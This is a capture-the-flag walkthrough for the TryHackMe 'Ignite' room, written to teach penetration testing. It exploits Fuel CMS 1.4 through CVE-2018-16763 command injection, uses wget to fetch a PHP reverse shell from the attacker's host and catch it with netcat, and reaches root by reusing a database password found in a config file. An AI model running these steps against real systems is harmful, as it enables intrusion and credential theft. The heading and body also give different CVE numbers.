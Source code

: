 # Try Hack Me - Ignite

**Categories:**  CTF, boot2root, privesc, exploit  
**Difficulty:**  Easy  

Commands used in this guide use the exported variable $IP (`export IP=10.10.224.219`) in place of the target machine's IP address.

## 1: Enumeration - nmap

Having launched the machine, we perform a basic TCP port scan with nmap (`sudo nmap $IP -p-`) followed by a version enumeration scan on the 1 discovered port (80) :

```console
┌──(kali㉿kali)-[~/Documents/tthm/ignite]
└─$ sudo nmap $IP -sV -p80 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-02 23:36 EDT
Nmap scan report for 10.10.224.219
Host is up (0.099s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

A Google / Searchsploit scan shows no relevant exploits for this Apache version. Navigating to the application on 80 reveals a [Fuel CMS](https://www.getfuelcms.com/) v1.4 welcome page, including default creds "admin:admin" :

```html
<header class="page_header">
    <div class="logo"><svg width="140px" height="165px" viewBox="0 0 126.962 115.395" preserveAspectRatio="xMidYMid"><use xlink:href="#fuel"></use></svg></div>
    
    <h1>Welcome to Fuel CMS</h1>
    <h2>Version 1.4</h2>
</header>
...snip...
<div class="content_block">
    <h4>That's it!</h4>

    <p>To access the FUEL admin, go to:<br/>
    <a href="http://10.10.224.219/fuel">http://10.10.224.219/fuel</a><br>
    User name: <strong>admin</strong><br/>
    Password: <strong>admin</strong> (you can and should change this password and admin user information after logging in)</p>
</div>
```

Normally we'd now start on further enumeration of the web application (gobuster, etc.), but in this case searchsploit throws up a critical vulnerability.

## 2. Foothold - CVE-2018-16673

A searchsploit search for Fuel 1.4 provides an exploit script for [CVE-2018-16763](https://www.exploit-db.com/exploits/47138), a command injection vulnerability providing RCE through a crafted query param at `/fuel/pages/select/?filter=`. We copy the script to our working directory, change the IP in the "url" variable, remove the "proxies=proxy" param in the call to requests.get (we don't need it here) and run the script. The script waits for user input that is urlencoded and injected into the vulnerable path : 

```console
┌──(kali㉿kali)-[/tmp/dead]
└─python2 47138.py
cmd:
```

Normally, we'd just pass a reverse shell here, but I had no luck with bash / netcat / python / php reverse shells, so I took the long way round. I downloaded a php reverse shell to the attack machine, hosted in over HTTP, and used the shell provided by the script to download it to `/var/www/html/exploit.php` using wget :

```console
┌──(kali㉿kali)-[/tmp/dead]
└─$ python2 47138.py
cmd:wget 10.6.76.88/rs.php -O /var/www/html/exploit.php
```

We then start a netcat listener on the target port and navigate to the new `/exploit.php` route : 

```console
┌──(kali㉿kali)-[~]
└─$ curl $IP/exploit.php
```

```console
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 12321
listening on [any] 12321 ...
connect to [ATTACK-IP] from (UNKNOWN) [10.10.224.219] 39236
Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 21:13:29 up  1:49,  0 users,  load average: 0.00, 0.00, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The user flag is at `/home/www-data/flag.txt` - we'll also upgrade our shell to a tty (`python3 -c 'import pty; pty.spawn("/bin/bash")`).

## 3. Privesc - Root password in configs

The classic privesc vector when exploiting PHP CMS applications is plaintext credentials stored in application and database configuration files. Navigating to `/var/www/html/fuel` provides various possible paths for config files :

```console
www-data@ubuntu:/var/www/html/fuel$ ls
application  data_backup  install   modules
codeigniter  index.php    licenses  scripts
```

After a few minutes of poking around, we find a plaintext root password for the MySql instance in `/var/www/html/fuel/application/config/database.php` :

```php
...snip...
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'PASSWORD',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
...snip...
```

and we try to switch to the root user using the same password :

```console
www-data@ubuntu:/var/www/html/fuel/application/config$ su root
Password:

root@ubuntu:/var/www/html/fuel/application/config# id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is at `/root/root.txt`.
